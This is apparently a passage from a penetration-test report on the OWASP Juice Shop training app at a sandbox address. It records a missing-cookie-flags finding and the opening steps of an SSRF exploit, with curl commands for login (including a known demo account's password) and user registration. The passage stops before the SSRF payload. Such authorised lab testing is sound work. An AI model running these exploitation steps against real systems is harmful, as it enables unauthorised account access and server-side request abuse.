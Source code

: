 **Summary:**
- **Vulnerable location:** Cookie configuration in authentication responses
- **Impact:** Session cookies vulnerable to XSS-based theft
- **Severity:** High

**Exploitation Steps:**

1. Analyze login response for secure cookie flags:
```bash
curl -X POST "http://juice-shop.sandbox.local:3001/rest/user/login" \
-d '{"email":"jim@juice-sh.op","password":"ncc-1701"}' \
-v 2>&1 | grep -i "set-cookie"
```
Result: No secure cookie headers observed

**Evidence of Vulnerability:**
Session cookies lack HttpOnly, Secure, and SameSite flags, making them accessible to JavaScript and vulnerable to XSS-based session hijacking attacks.


# SSRF Exploitation Evidence

## Successfully Exploited Vulnerabilities

### SSRF-VULN-01: HTTP Method Bypass in Profile Image URL Upload

**Summary:**
- **Vulnerable location:** `POST /profile/image/url` endpoint accessible via HTTP method bypass
- **Impact:** Ability to make arbitrary HTTP requests from the server to internal services and external destinations
- **Severity:** High

**Prerequisites:**
- Valid user account (freely available through registration)
- JWT authentication token (obtained via `/rest/user/login`)

**Exploitation Steps:**

1. **Register a user account:**
   ```bash
   curl -X POST http://juice-shop.sandbox.local:3001/api/Users \
     -H "Content-Type: application/json" \
     -d '{"email":"ssrf.test@example.com","password":"TestPassword123","passwordRepeat":"TestPassword123","securityQuestion":{"id":1,"question":"Your eldest siblings middle name?","createdAt":"2024-01-01","updatedAt":"2024-01-01"},"securityAnswer":"test"}'
   ```

2. **Authenticate and obtain JWT token:**
   ```bash
   curl -X POST http://juice-shop.sandbox.local:3001/rest/user/login \
     -H "Content-Type: application/json" \
     -d '{"email":"ssrf.test@example.com","password":"TestPassword123"}'
   ```

